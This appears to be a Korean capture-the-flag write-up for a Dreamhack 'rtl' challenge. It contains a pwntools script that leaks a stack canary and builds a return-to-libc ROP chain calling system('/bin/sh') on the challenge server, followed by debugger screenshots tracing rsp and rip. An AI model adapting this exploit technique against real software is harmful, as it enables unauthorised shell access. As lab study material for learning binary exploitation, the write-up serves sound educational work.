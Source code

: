 context.arch = 'amd64'

p = remote('host3.dreamhack.games', 23240)

elf = ELF('rtl')

system_plt = elf.plt['system']
#system_plt = 0x601028
payload = b'a'*0x38

p.send(payload+b'a')
p.recvuntil(payload+b'a')

canary = b'\x00' + p.recvn(7)

pop_rdi_ret_gadget = 0x0000000000400853
binish = 0x400874
ret_gadget = 0x0000000000400285

payload += canary + b'a'*0x8 + p64(ret_gadget) + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)
# payload += canary + b'a'*0x8 + p64(pop_rdi_ret_gadget) + p64(binish) + p64(system_plt)

p.send(payload)

p.interactive()
```

1. 바이너리의 `ret` 실행 전

<img width="536" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/b6817e70-2878-43f8-805c-43f31ebe0948">

2. 바이너리의 `ret` 실행 후 `rsp`와 `rip` 이동

<img width="544" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/dc46899e-9cfe-4ac4-bc08-2745ca351f20">

3. return_address에 조작한 `ret` 실행 이후

<img width="543" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/54bb151c-691c-4a85-b606-160a08af19af">

4. `pop rdi` 이후

<img width="771" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/af802e6d-41af-457d-81c2-4ccef6a0c25c">

5. `ret` 이후

<img width="533" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/03f6e906-7aa6-4e45-b5bd-260883bfc623">

`system@plt`로 `rip`가 이동하여 `system("/bin/sh")` 함수 실행으로 익스플로잇 완료
